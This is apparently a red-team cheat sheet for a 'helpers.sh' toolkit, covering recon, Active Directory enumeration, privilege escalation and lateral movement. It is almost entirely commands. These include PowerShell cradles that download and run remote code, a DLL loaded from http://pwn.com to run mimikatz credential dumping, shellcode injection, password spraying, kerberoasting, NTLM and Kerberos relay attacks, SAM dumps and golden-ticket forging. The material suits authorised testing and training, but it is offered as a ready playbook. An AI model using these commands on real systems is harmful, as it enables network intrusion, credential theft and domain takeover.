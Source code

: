 ## Cheat sheet using "helpers.sh" and other scripts/snippets:

### A. outside

#### 1. online content
	 harvestData target.com
	 googleSearch target.com "employee data filetype:pdf"
	 cewlHarvestData https://target.com/page.aspx

#### 2. dns enumeration
	 getIPAddress target.com
	 digDump 10.10.10.1
	 whoisARIN 10.10.10.1
	 dnsRecon target.com ns.target.com
	 dnsReconReverseIP target.com ns.target.com 10.10.10.0/24
	 harvestData target.com

#### 3. ping sweep
	 pingSweep 10.10.10.1
	 pingSweeps hosts.txt
	 pingSweepCIDR 10.10.10.0/24

#### 4. port scans
	 serviceScan hosts.txt
	 fullTCPScan 10.10.10.1
	 quickUDPScan 10.10.10.1

#### 5. fingerprinting
	 fingerPrintHTTPHeaders hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 scanSMBSettings hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 fingerPrintHTTPHeader target.com

#### 6. check cves
	 searchsploit exploit|grep remote
	 googleSearch github.com "CVE-2020-XXXX"

#### 7. manual enumeration
	 dirb https://target.com/ /seclists/common.txt -X .aspx, .asmx, .svc
	 wfuzz -w wordlist/general/common.txt http://target.com/FUZZ
	 python cve-2020-XXXX_checker.py target.com

#### 8. exploit
	 sprayHTTP target.com target.local usernames.txt Summer2020
	 rulerCheck user.name@target.local	 
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(new-object net.webclient).downloadstring('...')
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(iwr http://'...')
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(gc ....txt|out-string)

### B. inside

#### 1. broadcasts
	 dnsBroadcastDiscovery
	 dhcpBroadcastScan
	 respondRelay
	 tcpdump -lnv -i eth0 icmp

#### 2. dns enumeration
	 getIPAddress target.local dc.target.local
	 digDump dc.target.local
	 dnsRecon target.local dc.target.local
	 dnsReconReverseIP target.local dc.target.local 10.10.10.0/24

#### 3. ping sweep
	 pingSweep 10.10.10.1
	 pingSweeps hosts.txt
	 pingSweepCIDR 10.10.10.0/24

#### 4. port scans
	 serviceScans hosts.txt
	 serviceScan 10.10.10.1
	 fullTCPScan 10.10.10.1
	 quickUDPScan 10.10.10.1

#### 5. fingerprinting
	 serviceFingerprintScan 10.10.10.1
	 fingerPrintHTTPHeaders hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 scanSMBSettings hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 fingerPrintHTTPHeader target.com

#### 6. rpc enumeration
	 getRPCUserInfo 10.10.10.1
	 getRPCPWInfo 10.10.10.1
	 checkRPCPrintSpool 10.10.10.1
	 getInterfaces 10.10.10.1

#### 7. dumps
	 dumpRPC 10.10.10.1
	 dumpSAMR 10.10.10.1

#### 6. check cves
	 searchsploit exploit|grep remote
	 googleSearch github.com "CVE-2020-XXXX"

#### 7. manual enumeration
	 dirb https://sp.target.local/ /common.txt -X .aspx, .asmx
	 wfuzz -w wordlist/general/common.txt http://web.target.local/FUZZ
	 python cve-2020-XXXX_checker.py target.local

#### 8. exploit	 
	 spraySMB target.com target.local usernames.txt Summer2020	 
	 implantShellcode
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(new-object net.webclient).downloadstring('...')
	 # iex(new-object net.webclient).downloadstring('...');

### C. local

#### 1. enum
	 # seatbelt -user
	 # invoke-hostenum
	 # invoke-allchecks
	 # invoke-sharefinder
	 # invoke-edrchecker
	 # invoke-bloodhound -domain target.local
	 # $boxes=get-netcomputer -domain target.local -fulldata
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("configuration/appSettings/add")}
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("/configuration/connectionStrings/add")}
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("/configuration/system.web/machineKey")}
	 # $boxes|%{$_|add-member -membertype noteproperty -name ipaddress -value (get-ipaddress $_.dnshostname).ipaddress -force};
	 # $boxes|%{$_|add-member -membertype noteproperty -name shares -value (invoke-sharefinder -computername $_.dnshostname -excludestandard -checkshareaccess) -force};
	 # foreach($item in $shares){$share,$desc=$item -split ' ',2;gci -file -filter *.config -path "$share"|%{([xml](gc $_.fullname)).selectnodes("configuration/appSettings/add")|where key -match pass}}

#### 2. privesc
	 # invoke-kerberoast -domain target.local -outputformat hashcat|select hash
	 # invoke-tokenmanipulation -createprocess "cmd.exe" -username "target.local/user.name" processargs "/c whoami"";
	 # invoke-binary rubeus.exe triage
	 # invoke-binary rubeus.exe dump
	 # invoke-binary internalmonologue.exe
	 # sweetpotato.exe -c 4991d34b-xxx-xxx-xxx-xxx -p cmd.exe -a "/c whoami" -l 65535
	 # dll-loader -http -path http://pwn.com/sharpsploit.dll; [sharpsploit.credentials.mimikatz]::logonpasswords();
	 # inject-shellcode -shellcode $buf -parentid 4502 -queueuserapc	 
	 # invoke-inveigh -http n
	 # invoke-inveighrelay -target target.local -command "whoami"
	 # invoke-socksproxy -port 65535
	 # make immutable:
	 # chattr +i /path/to/filename
	 # chattr +i /etc/shadow
	 # lsattr /etc/shadow
	 # remove immutable:
	 # chattr -i /etc/shadow
	 # lsattr /etc/shadow

### D. network 	

#### 1. lateral
     getSPNs target.local
	 crackSPNs spns.txt passwords.txt
	 respondRelay
	 ntlmRelay hosts.txt
	 smbRelay target.local
	 localProxy
	 portForward 65535 127.0.0.1 10.10.10.1 65535
	 socksProxy 127.0.0.1 65535 root 10.10.10.1
	 localHTTPTunnel 127.0.0.1 65535 http://target.com/george.aspx	 
	 pyinstaller.exe -onefile socks.py
	 dropImplant target.local
	 wmiShell target.local
	 winRMShell target.local
	 smbShell target.local
	 getUser admin.user
	 getComputer dc.target.local
	 getUsers target.local
	 getFullComputers target.local
	 getShares target.local
	 mountShare target.local e\$ 
	 find ./ type -f -name "*web*.config"
	 grep -rnw "password" 

#### 2. escalation
	 getLoggedOn target.local
	 getSessions target.local
	 dumpSAM target.local
	 huntUser admin.user
	 getDelegation target.local
	 addSPNDNS host/pwn-target.local dc.target.local
	 addDNS 10.10.10.1 pwn-target.local dc.target.local
	 ntlmRelayDelegate box.local target.local 10.10.10.1
	 krbRelayUser target.local user.name Summer2020
	 krbRelayUser AES256XXXX
	 printerRelay dc.target.local pwn-target.local
	 krbExportTGT dc.target.local_krbtgt.ccache
	 dumpSIDs dc.target.local
	 getGoldTicket AES256XXXX S-1-5-21-XXXX target.local pwn.user
	 dumpDCOnlyTGT dc.target.local
	 searchsploit "privesc"|grep local
	 googleSearch github.com "privesc CVE-2020-XXXX"
	
